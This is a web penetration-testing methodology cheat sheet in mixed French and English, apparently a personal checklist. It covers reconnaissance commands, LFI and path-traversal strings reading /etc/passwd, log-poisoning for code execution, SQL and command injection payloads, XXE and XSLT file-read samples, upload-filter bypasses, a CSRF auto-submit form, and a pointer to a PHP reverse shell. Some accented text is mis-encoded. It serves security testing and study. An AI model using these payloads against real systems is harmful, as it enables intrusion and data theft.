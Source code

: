 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- ping www.site.com ; whois 'www.site.com' ; whois 192.168.1.1
- google dorks : search for credentials :"intext:<thetarget> AND intext:@gmail.com AND intext:password" ; theharvester    
- DNS : check DNS records : dig domain.com ANY
zone transfert test AXFR
VHOSTS ? -> HTTP header Host or /etc/hosts to access potential VHOST 
- Subdomains enum : $ amass enum -passive -d domain.com -src 
- Scan rÃ©seau : $ nmap -p- sV site.com // -A version detection -oA fichier_out
CVE ?

## Client source code = infos(CMS version)/file disclosure(.js files)/unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

URL: 
- dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) : unprotected refs [/admin/, robots.txt, sitemap.xml]
- Fichiers de sauvegarde/dev/ [index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp...]
- Full Path Disclosure [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- Redirections [curl -v] 

REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**
[DotDotPwn]

**SQL injection**
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**

**Template injection** 
${2*2} (server-side,voir PDF)

**LDAP injection**
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**
exemple :
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','index.php')"/>
<xsl:value-of select="php:function('opendir','/directory/')"/>
<xsl:value-of select="php:function('chdir','/directory/')"/>
<xsl:value-of select="php:function('readdir')"/>
</xsl:template>
</xsl:stylesheet>
**XXE (XML External Entity)**
exemple dans un flux rss : 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/challenge/web-serveur/ch29/index.php" >
]>
<rss version="2.0">
    <channel>
        <title>Mon site</title>
        <description>Ceci est un exemple de flux RSS 2.0</description>
        <lastBuildDate>Sat, 07 Sep 2002 00:00:01 GMT</lastBuildDate>
        <link>http://www.example.org</link>
        <item>
            <title>&xxe;</title>
            <description>Ceci est ma premiÃ¨re actualitÃ©</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu1</link>
        </item>
        <item>
            <title>ActualitÃ© NÂ°2</title>
            <description>Ceci est ma seconde actualitÃ©</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu2</link>
        </item>
    </channel>
</rss>
- GraphQL injection : query={__schema{types{name,fields{name}}}} to enumerate 
- Php register_globals [injection variable URL]
**FILE UPLOAD**
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
